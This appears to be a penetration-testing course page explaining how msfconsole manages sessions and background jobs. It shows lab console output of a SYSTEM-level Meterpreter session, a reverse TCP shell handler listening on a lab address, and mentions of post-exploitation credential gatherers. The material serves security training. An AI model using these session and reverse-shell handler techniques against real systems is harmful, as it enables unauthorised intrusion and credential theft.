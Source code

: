 MSFconsole can manage multiple modules at the same time. This is one of the many reasons it provides the user with so much flexibility. This is done with the use of `Sessions`, which creates dedicated control interfaces for all of your deployed modules.

Once several sessions are created, we can switch between them and link a different module to one of the backgrounded sessions to run on it or turn them into jobs. Note that once a session is placed in the background, it will continue to run, and our connection to the target host will persist. Sessions can, however, die if something goes wrong during the payload runtime, causing the communication channel to tear down.

---

## Using Sessions

While running any available exploits or auxiliary modules in msfconsole, we can background the session as long as they form a channel of communication with the target host. This can be done either by pressing the `[CTRL] + [Z]` key combination or by typing the `background` command in the case of Meterpreter stages. This will prompt us with a confirmation message. After accepting the prompt, we will be taken back to the msfconsole prompt (`msf6 >`) and will immediately be able to launch a different module.

#### Listing Active Sessions

We can use the `sessions` command to view our currently active sessions.

  Listing Active Sessions

```shell
msf6 exploit(windows/smb/psexec_psh) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

#### Interacting with a Session

You can use the `sessions -i [no.]` command to open up a specific session.

  Interacting with a Session

```shell
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

This is specifically useful when we want to run an additional module on an already exploited system with a formed, stable communication channel.

This can be done by backgrounding our current session, which is formed due to the success of the first exploit, searching for the second module we wish to run, and, if made possible by the type of module selected, selecting the session number on which the module should be run. This can be done from the second module's `show options` menu.

Usually, these modules can be found in the `post` category, referring to Post-Exploitation modules. The main archetypes of modules in this category consist of credential gatherers, local exploit suggesters, and internal network scanners.

---

## Jobs

If, for example, we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using `[CTRL] + [C]`. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

Other types of tasks inside sessions can also be converted into jobs to run in the background seamlessly, even if the session dies or disappears.

#### Viewing the Jobs Command Help Menu

We can view the help menu for this command, like others, by typing `jobs -h`.

  Viewing the Jobs Command Help Menu

```shell
msf6 exploit(multi/handler) > jobs -h
Usage: jobs [options]

Active job manipulation and interaction.

OPTIONS:

    -K        Terminate all running jobs.
    -P        Persist all running jobs on restart.
    -S <opt>  Row search filter.
    -h        Help banner.
    -i <opt>  Lists detailed information about a running job.
    -k <opt>  Terminate jobs by job ID and/or range.
    -l        List all running jobs.
    -p <opt>  Add persistence to job by job ID
    -v        Print more detailed info.  Use with -i and -l
```

#### Viewing the Exploit Command Help Menu

When we run an exploit, we can run it as a job by typing `exploit -j`. Per the help menu for the `exploit` command, adding `-j` to our command. Instead of just `exploit` or `run`, will "run it in the context of a job."

  Viewing the Exploit Command Help Menu

```shell
msf6 exploit(multi/handler) > exploit -h
Usage: exploit [options]

Launches an exploitation attempt.

OPTIONS:

    -J        Force running in the foreground, even if passive.
    -e <opt>  The payload encoder to use.  If none is specified, ENCODER is used.
    -f        Force the exploit to run regardless of the value of MinimumRank.
    -h        Help banner.
    -j        Run in the context of a job.
	
<SNIP
```

#### Running an Exploit as a Background Job

  Running an Exploit as a Background Job

```shell

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

#### Listing Running Jobs

To list all running jobs, we can use the `jobs -l` command. To kill a specific job, look at the index no. of the job and use the `kill [index no.]` command. Use the `jobs -K` command to kill all running jobs.

  Listing Running Jobs

```shell

msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Next up, we'll work with the extremely powerful `Meterpreter` payload.

